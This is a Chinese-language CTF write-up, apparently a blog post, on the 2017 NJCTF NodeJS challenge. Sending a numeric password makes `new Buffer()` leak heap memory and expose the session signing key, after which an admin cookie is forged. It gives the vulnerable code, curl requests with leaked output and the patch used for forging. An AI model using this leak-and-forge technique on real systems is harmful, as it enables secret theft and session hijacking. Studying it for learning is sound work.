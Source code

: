 ```yaml
---
title: 【CTF】NodeJS Buffer()引发内存泄露
date: 2017-03-16 15:41:21
categories: CTF
tags:
    - NodeJS
    - 内存泄露
---
```


## 背景介绍

参加2017 NJCTF比赛时碰见了一道NodeJS的web题，之前也没学过NodeJS, 于是上网搜了一下，搜到了原题 [https://www.smrrd.de/nodejs-hacking-challenge-writeup.html](https://www.smrrd.de/nodejs-hacking-challenge-writeup.html), 发现NJCTF在原题基础上改了入口代码，虽说在github上能搜到改过的原题，倒不如直接给源码来的痛快，这里就不提改过的题目了，直接分析原题，其中有几个点还是值得好好学习的。

<!-- more -->

## 环境搭建

安装好nodejs的环境，切换到源码更目录，安装依赖包`npm install`, 运行`npm start run`, 然后访问本机`http://localhost:3000`.

## 关键点分析

* post 请求

`/admin` 页面提交`password`，会向`/login`发送一个JSON类型的数据。

而NJCTF的题目更改了发送请求，直接发送的POST的数据(e.g. "password=...")，可以通过代理工具，更改发送请求类型，发送JSON类型的数据，以后做测试时要考虑服务器是否接受发送JSON类型的请求，如果接受，可以很好的扩大发送数据的类型。

服务器响应头返回Cookie设置`session`和`session.sig`，而`session`明显是base64编码过，解码为`{"admin":"no"}`，由于有`session.sig`的校验，单纯改`session`的值是无效的，要实现成功伪造`session`值，必须获得`config.js`配置的`session_keys`的值，然后本地搭建，获取`session.sig`.

* 内存泄露`session_keys`


```
router.post('/login', function(req, res, next) {
    if(req.body.password !== undefined) {
        var password = new Buffer(req.body.password);
        if(password.toString('base64') == config.secret_password) {
            req.session.admin = 'yes';
            res.json({'status': 'ok' });
        } else {
            res.json({'status': 'error', 'error': 'password wrong: '+password.toString() });
        }
    } else {
        res.json({'status': 'error', 'error': 'password missing' });
    }
});
```

`index.js`中根据用户提交的`password`生成新的Buffer对象，当`password`为字符串类型时，会生成同等大小的内存块，而当`password`为数字类型时，则生成指定大小的内存块， 而且Buffer返回的并不是全是0的内存块，而是之前在堆上分配的数据，这样就可以泄露内存数据，获取源码和数据。

```
> Buffer('AAAA')
<Buffer 41 41 41 41>
> Buffer(4)
<Buffer 90 4e 80 01>
> Buffer(4)
<Buffer 50 cc 02 02>
> Buffer(4)
<Buffer 0a 00 00 00>
```

令password=100(整数，也可以是更大的数，泄露出更多的数据), 多次重复发送post请求，会泄露出想要的`session_keys: ALLES{session_key_K.GKQeR0JS2b9OhwSH#UdMhL4EddxeD?}`

```
curl http://xxx.xxx.xxxx.xxx:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | hexdump -C
00000000  7b 22 73 74 61 74 75 73  22 3a 22 65 72 72 6f 72  |{"status":"error|
00000010  22 2c 22 65 72 72 6f 72  22 3a 22 70 61 73 73 77  |","error":"passw|
00000020  6f 72 64 20 77 72 6f 6e  67 3a 20 41 4c 4c 45 53  |ord wrong: ALLES|
00000030  7b 73 65 73 73 69 6f 6e  5f 6b 65 79 5f 4b 2e 47  |{session_key_K.G|
00000040  4b 51 65 52 30 4a 53 32  62 39 4f 68 77 53 48 23  |KQeR0JS2b9OhwSH#|
00000050  55 64 4d 68 4c 34 45 64  64 78 65 44 3f 7d 72 64  |UdMhL4EddxeD?}rd|
00000060  41 70 70 7b 5c 22 61 64  6d 69 6e 5c 22 3a 5c 22  |App{\"admin\":\"|
00000070  6e 6f 5c 22 7d 3e 69 3c  21 44 4f 43 54 59 50 45  |no\"}>i<!DOCTYPE|
00000080  20 68 74 6d 6c 3e 3c 68  74 6d 6c 20 6e 67 2d 61  | html><html ng-a|
00000090  70 70 3d 22 7d                                    |pp="}|
00000095

curl http://xxx.xxx.xxx.xxx:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | grep ALLES
{"status":"error","error":"password wrong: ALLES{session_key_K.GKQeR0JS2b9OhwSH#UdMhL4EddxeD?}><lin{\"admin\":\"no\"}eet\" href=\"/stylesheets/style."}
```

于是本地搭建环境，更改conf.js的`session_keys`, 然后更改`app.js`,强制令`req.session.admin = 'yes'`, 就可以获取了有效的`session`和`session.sig`.

```
app.use(function(req, res, next) {
  req.session.admin = 'yes';
  // if(req.session.admin === undefined) {
  //   req.session.admin = 'no';
  // }
  next();
});
```

伪造cookie访问目标网站即可。

{% asset_img admin.png %}
